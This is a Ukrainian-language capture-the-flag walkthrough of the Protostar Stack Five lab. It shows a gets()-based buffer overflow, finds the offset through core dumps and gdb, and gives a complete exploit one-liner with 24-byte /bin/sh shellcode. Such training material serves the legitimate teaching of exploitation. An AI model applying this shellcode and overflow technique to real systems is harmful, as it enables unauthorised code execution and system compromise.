

## [Stack Five](http://exploit.education/protostar/stack-five/)

Stack5 — це стандартне переповнення буфера, цього разу включаючи шелл-код.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

У цій вправі ми нарешті переходимо до виконання довільного коду замість того, щоб покладатися на код, який уже є в самій програмі.
Для цього можна використати вразливість переповнення, щоб помістити шелл-код у стек і вказати EIP туди, куди ми помістимо код.
Ми можемо приступити до написання та компіляції власного шелл-коду, але для такої простої ситуації, як ця, можна просто взяти шелл-код на один рядок з Інтернету:  
```
24 bytes
shellcode = (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)
```  

На відміну від попереднього прикладу, ми будемо використовувати дампи ядра для аналізу замість прямого налагодження, 
щоб зафіксувати стан пам'яті програми точно так, як він виглядає під час нормального виконання (програма ```gdb``` трохи змінює стек, тому дійсна адреса може трохи відрізнятися від отриманої):  
```
ulimit -c unlimited
python -c "print('B' * 76 + 'AAAA')" | ./stack5
``` 

Наведені вище команди вмикають дамп ядра та генерують його, запускаючи переповнення в ./stack5. Давайте завантажимо згенерований дамп ядра і знайдемо буфер:  
```
gdb ./stack5 /tmp/core.11.stack5.1494 -q
x/24x $esp-96
```

  

Як видно на рисунку, програма вже намагалася виконати адресу ```0x41414141``` ('AAAA'), тому зміщення правильні. 
Буфер користувача починається з ```0xbffffc60```. Отже, маємо:  
```(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (76 - 24) + '\xbf\xff\xfc\x60'[::-1])"; cat) | ./stack5```

  